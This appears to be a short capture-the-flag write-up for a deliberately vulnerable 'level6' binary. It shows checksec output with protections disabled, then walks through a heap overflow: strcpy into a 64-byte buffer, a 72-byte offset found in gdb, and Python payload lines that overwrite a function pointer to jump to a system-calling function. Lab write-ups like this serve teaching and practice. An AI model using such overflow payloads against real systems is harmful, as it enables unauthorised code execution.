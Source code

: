 ``` 
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
```

This time we have a binary that needs at least a first arg to launch without crashing

Ltraces shows us strcpy, which is an unsafe function, this is our entrypoint, it copies the first launch argument into a 64 wide buffer

Let's take a look in gdb with pattern generator,
we get a 72 offset, so 72 + 4 to override our return pointer

There are two uncalled functions, n performs a system call, and m performs a puts, we need to reach n but m is called by function pointer in main

There is a char buffer and a pointer to a function pointer.

Both of these are located on the heap and overloading the char buffer we should be able to change to function pointer

python -c 'print("A" * 72 + "BBBB")'

crashes on 0x42424242 so we're good on this front

Let's make it go to the function we want, at address 0x08048454

\x54\x84\x04\x08

python -c 'print("A" * 72 + "\x54\x84\x04\x08")'